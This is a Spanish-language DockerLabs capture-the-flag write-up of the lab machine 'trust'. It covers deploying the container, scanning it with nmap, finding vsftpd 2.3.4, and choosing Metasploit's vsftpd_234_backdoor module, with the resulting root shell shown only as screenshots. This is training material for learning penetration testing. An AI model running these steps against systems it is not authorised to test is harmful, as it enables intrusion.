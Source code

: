#Writeups #VeryEasy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

escaneamos todos los puertos :
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.40 seconds
```

Parece que solo hay un servicio ftp, vamos a hacerle un escaneo mas profundo a este servicio:
```bash
❯ nmap -p21 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds
```
POr el escaneo y las pruebas que hago manuales, no podemos entrar como anonymous, por lo unico que nos quedaría para este servicio es ver si la version **vsftpd 2.3.4** que tiene es vulnerable.

En mi caso usare metasploit, así que arrancamos el framework con msfconsole:


```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

y buscamos la version del servicio ftp:
```bash
[msf](Jobs:0 Agents:0) >> search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
```

parece que existe una vulnerabilidad que nos puede permitir ejecutar comandos a través de un backdoor del servicio, vamos a usarlo y configurarlo a ver si da resultado:

![msfcFrHack.png](assets/msfcFrHack.png)

y nos da una shell con root:

![rootFirst.png](assets/rootFirst.png)

Con esto ya hemos comprometido la maquina.